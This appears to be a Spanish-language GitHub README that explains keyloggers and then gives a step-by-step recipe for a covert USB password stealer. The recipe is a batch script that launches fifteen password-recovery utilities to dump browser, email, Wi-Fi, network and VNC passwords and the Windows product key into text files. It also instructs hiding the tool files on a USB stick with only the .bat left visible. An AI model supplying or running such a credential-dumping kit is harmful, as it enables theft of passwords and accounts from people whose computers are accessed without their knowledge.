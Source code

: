 
 # USB Para extraer contraseñas de un ordenador
 
La tecnología ha avanzado tanto, que se ha desarrollado una forma de robar o registrar información de una manera disimulada en cualquier ordenador. Este método es llamado keylogging, y puede ser beneficioso o malicioso según sea el uso que se le de, ya que si eres de los que descargan programas o introducen en el ordenador dispositivos USB constantemente puedes que seas víctima de esto.

Existen personas que usan este método de forma beneficiosa. Por ejemplo, las empresas usan los keylogger para registrar y ver el avance del trabajo de sus empleados, sin necesidad de estar constantemente pidiendo informes. Esta es una manera de organizarse y optimizar al máximo las labores de oficina. Sin embargo, es un tema tan delicado que solo puede hacerse con el consentimiento del empleado y con ciertas limitaciones para proteger información personal del mismo. 

<img align="center" height="480" width="1000" alt="GIF" src="https://github.com/ArisGuimera/ArisGuimera/assets/114537444/6d78f6c0-fe7c-40e1-9b0f-dc90c309c956"/>

## 💡 ¿Qué y para qué sirve un USB Keylogger “roba datos” o los llamados “Stealers” de información?
Un keylogger también es conocido como un captador de pulsaciones de teclas o un roba datos. Este es un programa o que se encarga de guardar o registrar todo lo que escribes al utilizar el teclado. Todo lo que recopila inmediatamente lo guarda en un fichero, o también se puede programar para que la información se envíe por internet a algún correo electrónico diariamente o semanal de manera automática.

Hay dos formas para poder hacer esto. La primera es el keylogger software (el más usado), que forman parte de malware como los troyanos o rootkits. Este puede ser enviado por un correo o por cualquier otro archivo descargado del internet. El segundo es el keylogger hardware (el cual no es muy habitual), que consiste en infectar con el programa un disco extraible USB e introducirlo en el ordenador el que se deseen extraer los datos.

No esta demás decir, que no siempre un keylogger puede ser una malware, perjudicial para tu PC, ya que hay algunas empresas que ofrecen este tipo de servicios para que el cliente tenga cierto control de sus ordenadores cuando es utilizado por otros, y también es muy usado por los padres para monitorear lo que hacen sus hijos.

<img align="center" height="524" width="1000" alt="GIF" src="https://github.com/ArisGuimera/ArisGuimera/assets/114537444/cae4f52a-29ce-4d41-af99-e88315468fe8"/>

## 📚 Ejemplo

En este ejemplo, podrás extraer las contraseñas almacenadas en los navegadores web, también extraerás todas las contraseñas de internet, correos, y la key del sistema operativo. Primero tendrás que descargar este repositorio, o sino, descargar solo los programas que te interesan y luego haces lo siguiente:

Abres un bloc de notas y pegas este codigo, dependiendo que programas quieres ejecutar y lo guardas como archivo .bat

```bash
start mspass.exe /stext mspass.txt
start mailpv.exe /stext mailpv.txt
start iepv.exe /stext iepv.txt
start pspv.exe /stext pspv.txt
start PasswordFox.exe /stext passwordfox.txt
start OperaPassView.exe /stext OperaPassView.txt
start ChromePass.exe /stext ChromePass.txt
start Dialupass.exe /stext Dialupass.txt
start netpass.exe /stext netpass.txt
start WirelessKeyView.exe /stext WirelessKeyView.txt
start BulletsPassView.exe /stext BulletsPassView.txt
start VNCPassView.exe /stext VNCPassView.txt
start OpenedFilesView.exe /stext OpenedFilesView.txt
start ProduKey.exe /stext ProduKey.txt
start USBDeview.exe /stext USBDeview.txt
```

Por último solo copia los archivos descargados y ocúltalos en alguna usb, solo dejando el .Bat que es el que ejecutarás para poder extraer las contraseñas

## 📚 Nota Importante
Algo a destacar es que todos los archivos deben estar en una misma carpeta, incluyendo el ".Bat" De lo contrario no funcionará.
